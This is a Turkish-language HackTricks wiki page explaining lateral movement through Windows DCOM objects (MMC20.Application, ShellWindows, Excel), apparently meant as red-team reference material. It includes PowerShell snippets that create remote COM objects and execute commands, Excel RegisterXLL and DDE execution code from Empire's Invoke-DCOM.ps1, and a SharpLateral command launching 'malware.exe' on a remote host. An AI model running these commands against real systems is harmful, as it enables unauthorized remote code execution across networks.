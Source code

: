 # DCOM Exec

<details>

<summary><strong>AWS hacklemeyi sıfırdan ileri seviyeye öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

* **Bir siber güvenlik şirketinde mi çalışıyorsunuz? Şirketinizin **HackTricks'te reklamını görmek ister misiniz**? ya da **PEASS'ın en son sürümüne veya HackTricks'i PDF olarak indirmek ister misiniz**? [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* [**Resmi PEASS & HackTricks ürünlerini alın**](https://peass.creator-spring.com)
* **Katılın** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**'u takip edin**.
* **Hacking püf noktalarınızı paylaşarak PR'ler göndererek** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **ve** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **ile paylaşın**.

</details>

**Try Hard Security Group**

<figure><img src="../.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

***

## MMC20.Application

**Bu teknik hakkında daha fazla bilgi için orijinal yazıya [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/) bakın**


Dağıtılmış Bileşen Nesne Modeli (DCOM) nesneleri, nesnelerle ağ tabanlı etkileşimler için ilginç bir yetenek sunar. Microsoft, DCOM ve Bileşen Nesne Modeli (COM) için kapsamlı belgeler sağlar, [buradan DCOM için](https://msdn.microsoft.com/en-us/library/cc226801.aspx) ve [buradan COM için](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx) erişilebilir. PowerShell komutunu kullanarak bir DCOM uygulamaları listesi alınabilir:
```bash
Get-CimInstance Win32_DCOMApplication
```
COM nesnesi, [MMC Uygulama Sınıfı (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx), MMC eklentisi işlemlerinin betikleştirilmesini sağlar. Özellikle, bu nesne `Document.ActiveView` altında `ExecuteShellCommand` yöntemini içerir. Bu yöntem hakkında daha fazla bilgi [burada](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx) bulunabilir. Çalıştırılarak kontrol edin:

Bu özellik, bir DCOM uygulaması aracılığıyla ağ üzerinde komutların yürütülmesini kolaylaştırır. Uzaktan yönetici olarak DCOM ile etkileşime geçmek için PowerShell şu şekilde kullanılabilir:
```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("<DCOM_ProgID>", "<IP_Address>"))
```
Bu komut DCOM uygulamasına bağlanır ve bir COM nesnesinin bir örneğini döndürür. Ardından ExecuteShellCommand yöntemi çağrılabilir ve uzak makinede bir işlemi yürütmek için kullanılabilir. İşlem aşağıdaki adımları içerir:

Yöntemleri kontrol et:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com.Document.ActiveView | Get-Member
```
RCE Al:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com | Get-Member

# Then just run something like:

ls \\10.10.10.10\c$\Users
```
## ShellWindows & ShellBrowserWindow

**Bu teknik hakkında daha fazla bilgi için orijinal yazıya [buradan](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/) ulaşabilirsiniz.**

**MMC20.Application** nesnesinin açık "LaunchPermissions" eksikliği tespit edildi ve bu varsayılan olarak Yöneticilere erişim izni veren izinlere sahiptir. Daha fazla ayrıntı için [buradaki](https://twitter.com/tiraniddo/status/817532039771525120) konuya bakılabilir ve [@tiraniddo](https://twitter.com/tiraniddo)’nun OleView .NET'in kullanımı önerilir.

Özel olarak, `ShellBrowserWindow` ve `ShellWindows` nesneleri, açık Launch İzinlerine sahip olmadıkları için vurgulandı. `HKCR:\AppID\{guid}` altında bir `LaunchPermission` kaydının olmaması açık izinlerin olmadığını gösterir.

###  ShellWindows
ProgID'si olmayan `ShellWindows` için, .NET yöntemleri `Type.GetTypeFromCLSID` ve `Activator.CreateInstance` nesneyi AppID'si kullanarak oluşturmayı kolaylaştırır. Bu işlem, `ShellWindows` için CLSID'yi almak için OleView .NET'i kullanır. Oluşturulduktan sonra, etkileşim `WindowsShell.Item` yöntemi aracılığıyla mümkün olur ve `Document.Application.ShellExecute` gibi yöntem çağrılarına yol açar.

Örnek PowerShell komutları, nesneyi oluşturmak ve uzaktan komutları yürütmek için sağlanmıştır:
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```
### Excel DCOM Nesneleri ile Yanal Hareket

Yanal hareket, DCOM Excel nesnelerini istismar ederek gerçekleştirilebilir. Detaylı bilgi için, DCOM aracılığıyla yanal hareket için Excel DDE'nin kullanılması üzerine yapılan tartışmayı [Cybereason'un blogunda](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom) okumanız önerilir.

Empire projesi, Excel'in DCOM nesnelerini manipüle ederek uzaktan kod yürütme (RCE) için Excel'in kullanımını gösteren bir PowerShell betiği sağlar. Aşağıda, Excel'in RCE için istismar edilmesi için farklı yöntemleri sergileyen [Empire'in GitHub deposundaki](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1) betikten alınan parçalar bulunmaktadır:
```powershell
# Detection of Office version
elseif ($Method -Match "DetectOffice") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$isx64 = [boolean]$obj.Application.ProductCode[21]
Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
# Registration of an XLL
elseif ($Method -Match "RegisterXLL") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$obj.Application.RegisterXLL("$DllPath")
}
# Execution of a command via Excel DDE
elseif ($Method -Match "ExcelDDE") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.DisplayAlerts = $false
$Obj.DDEInitiate("cmd", "/c $Command")
}
```
### Yana Hareket için Otomasyon Araçları

Bu teknikleri otomatikleştirmek için iki araç öne çıkarılmıştır:

- **Invoke-DCOM.ps1**: Uzak makinelerde kod yürütmek için farklı yöntemleri çağırmayı basitleştiren Empire projesi tarafından sağlanan bir PowerShell betiği. Bu betik, Empire GitHub deposunda erişilebilir durumdadır.

- **SharpLateral**: Uzaktan kod yürütmek için tasarlanmış bir araçtır ve aşağıdaki komutla kullanılabilir:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Otomatik Araçlar

* Powershell betiği [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1), diğer makinelerde kodu yürütmek için yorumlanmış tüm yolları kolayca çağırmayı sağlar.
* Ayrıca [**SharpLateral**](https://github.com/mertdas/SharpLateral) kullanabilirsiniz:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Referanslar

* [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
* [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

**Try Hard Security Group**

<figure><img src="../.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

<details>

<summary><strong>Sıfırdan Kahraman'a AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **tanıtmak istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
